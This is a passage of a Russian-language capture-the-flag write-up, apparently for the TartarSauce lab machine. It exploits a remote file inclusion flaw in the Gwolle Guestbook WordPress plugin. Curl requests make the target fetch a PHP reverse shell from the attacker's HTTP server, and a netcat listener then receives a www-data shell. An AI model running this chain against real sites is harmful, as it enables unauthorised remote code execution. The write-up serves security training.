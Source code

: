 ## Gwolle RFI Proof-of-Concept
Внимая описанию уязвимости, постучимся по адресу `http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14:31337/`, слушая при этом 31337-й порт:
```text
root@kali:~# curl -s 'http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14:31337/'

```

```text
root@kali:~# nc -nlvvp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.10.10.88.
Ncat: Connection from 10.10.10.88:41948.
GET /wp-load.php HTTP/1.0
Host: 10.10.14.14:31337
Connection: close
```

Есть контакт! Переходим к захвату шелла.

## Gwolle RFI Shell (внутри машины)
Для инициализации сессии будем пользоваться [php-реверс-шеллом](https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/laudanum-0.8/php/php-reverse-shell.php "SecLists/php-reverse-shell.php at master · danielmiessler/SecLists") от SecLists.

Дадим скрипту имя, которое ожидает от нас WordPress-плагин, сконфигурируем нужные нам IP и порт (поставлю 443-й, чтобы лишний раз не беспокоить гипотетический файрвол) и поднимем http-сервер, чтобы жертва смогла забрать приготовленный для нее вредонос:
```text
root@kali:~/www# ls
php-reverse-shell.php

root@kali:~/www# mv php-reverse-shell.php wp-load.php
root@kali:~/www# vim wp-load.php

root@kali:~/www# python3 -m http.server 31337
Serving HTTP on 0.0.0.0 port 31337 (http://0.0.0.0:31337/) ...
10.10.10.88 - - [29/Oct/2018 17:10:14] "GET /wp-load.php HTTP/1.0" 200 -

```

Ударим в curl:
```text
root@kali:~# curl -s 'http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14:31337/'

```

И получим честно заработанный шелл:
```text
root@kali:~# nc -nlvvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.88.
Ncat: Connection from 10.10.10.88:39518.

Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 i686 i686 GNU/Linux
 17:10:15 up  7:13,  0 users,  load average: 0.01, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```